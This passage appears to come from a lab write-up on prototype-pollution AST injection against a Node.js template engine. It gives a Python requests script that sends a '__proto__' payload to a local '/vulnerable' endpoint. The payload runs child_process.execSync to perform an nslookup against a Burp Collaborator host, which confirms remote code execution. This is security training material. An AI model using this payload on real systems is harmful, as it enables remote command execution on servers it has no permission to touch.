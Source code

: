 ![AST_FinalResult.png](img/AST_FinalResult.png)
Applying on lab's server. I created a python file using `requests` and build the AST JSON to interact my burp collaborator.

```python
import requests  
  
TARGET_URL = 'http://127.0.0.1:4000'  
  
proxy = {  
    "http": "127.0.0.1:8080",  
    "https": "127.0.0.1:8080"  
}  
  
print(f'[+] Sending to {TARGET_URL} via POST - ', end='')  

response = requests.post(TARGET_URL + '/vulnerable', proxies=proxy, json={  
    "__proto__": {  
        "code": {},  
        "block": {  
            "type": "Text",  
            "line": "process.mainModule.require('child_process').execSync(`nslookup 468clakvyx5tkldev8pvzvc05rbiz8nx.oastify.com`)"  
        }  
    }  
})  
print(response.status_code)  
```